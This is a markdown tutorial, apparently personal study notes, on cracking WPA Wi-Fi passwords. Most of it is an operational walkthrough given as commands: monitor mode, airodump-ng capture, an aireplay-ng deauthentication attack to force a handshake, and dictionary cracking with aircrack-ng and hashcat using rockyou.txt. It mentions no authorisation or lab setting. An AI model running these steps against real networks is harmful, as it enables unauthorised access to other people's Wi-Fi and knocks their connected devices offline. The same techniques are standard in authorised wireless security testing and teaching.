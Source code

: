 # Wireless Access Point Cracking

This attack needs a wireless card that can be run in monitor mode. When targeting a router, we need to be in range, know the channel it is running on, and its MAC address. We wait for someone to connect, thus initiating a 4-way handshake where we want to sniff the hashed password. To initiate all of this, we run a deauthentication attack to kick off connected devices. Once we have a hashed password, we run it through a tool like Aircrack or Hashcat which can run through 300-100,000 passwords/second.

## Putting Wireless Card in Monitor Mode

Mac - `ifconfig` - returns data on all interfaces including WLAN (en1)

Linux - `iwconfig`

```
ifconfig ROUTERNAME down
iwconfig ROUTERNAME mode monitor
ifconfig ROUTERNAME up
```

Double check because sometimes it will automatically switch back to managed mode.

## Deauthenticating Devices and Cracking Passwords

`airmon-ng check ROUTERNAME` - returns a list of running processes that could interfere with our modifaction of the 4-way handshake

`airmon-ng check kill` - kills the previously returned processes

Double check that your card is still in monitor mode

`airodump-ng ROUTERNAME` - begins sniffing for information. BSSID (MAC address), ESSID (name of wifi), CH (channel), ENC (encryption type), #Data and Beacons (is wifi currently in use), PWR (distance to wifi)

`airodump-ng -c CHANNEL# --bssid ROUTERMAC# -w FILE_NAME ROUTERNAME` - begins sniffing the target wifi and saves data to a file. We can see the devices currently connected to this access point.

While airodump is running - 

`aireplay-ng -0 0 -a ROUTERMAC# ROUTERNAME` - send deauthentication packets indefinitely until we kill the program with Ctrl+C.

Check the airodump console and look for a WPA-handshake text in the top right corner. This indicates that we successfully sniffed a hashed password. The .cap file produced has the info we need.

`locate rockyou.txt` - password list of 14,000,000 passwords.

`cd ROCKYOU DIRECTORY`

`cp rockyou.txt.gz /home/NAME/Desktop`

`cd Desktop`

`gzip -d rockyou.txt.gz`

`aircrack-ng -w rockyou.txt FILE_NAME.cap` - this will begin cracking our password (using only CPU) and give us an estimated time remaining. A good laptop will be about 4,000 passwords/second. Once it finds the password, it will stop running and print "Key found!"

## Hashcat Password Cracking

Hashcat uses CPU and GPU

`hashcat -help` - look through encryption types, under Network Protocols look for WPA hash (WPA-EAPOL-PBKDF2 [Code:2500])

Convert .cap file to .hccapx file online.

`hashcat -a 0 -m 2500 FILE_NAME.hccapx rockyou.txt` - runs an attack of lowest level, using WPA, our target wifi info, and rockyou password list. 's' shows current status and 'q' quits.